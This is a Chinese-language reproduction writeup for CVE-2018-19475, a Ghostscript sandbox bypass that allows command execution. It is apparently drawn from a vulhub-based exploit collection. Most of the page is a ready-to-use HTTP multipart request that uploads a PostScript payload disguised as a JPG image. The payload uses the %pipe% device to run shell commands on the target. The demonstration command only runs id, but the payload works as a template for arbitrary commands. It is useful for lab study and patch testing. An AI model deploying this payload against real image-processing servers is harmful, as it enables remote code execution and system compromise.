 （CVE-2018-19475）GhostScript 沙箱绕过（命令执行）漏洞
======================================================

一、漏洞简介
------------

./psi/zdevice2.c文件存在安全特征问题漏洞。该漏洞是源于网络系统或产品中缺少身份验证、访问控制、权限管理等安全措施。

二、漏洞影响
------------

Ghostscript 9.26之前版本

三、复现过程
------------

将POC作为图片上传，执行命令`id > /tmp/success && cat /tmp/success`：

    POST /index.php HTTP/1.1
    Host: target
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryukZmnyhO
    Content-Length: 279

    ------WebKitFormBoundaryukZmnyhO
    Content-Disposition: form-data; name="file_upload"; filename="1.jpg"
    content-Type="image/png"

    %!PS
    0 1 300367 {} for
    {save restore} stopped {} if
    (%pipe%id > /tmp/success && cat /tmp/success) (w) file
    ------WebKitFormBoundaryukZmnyhO--

命令已成功执行：

![](./.resource/(CVE-2018-19475)GhostScript沙箱绕过(命令执行)漏洞/media/rId24.png)

参考链接
--------

> https://vulhub.org/\#/environments/ghostscript/CVE-2018-19475/
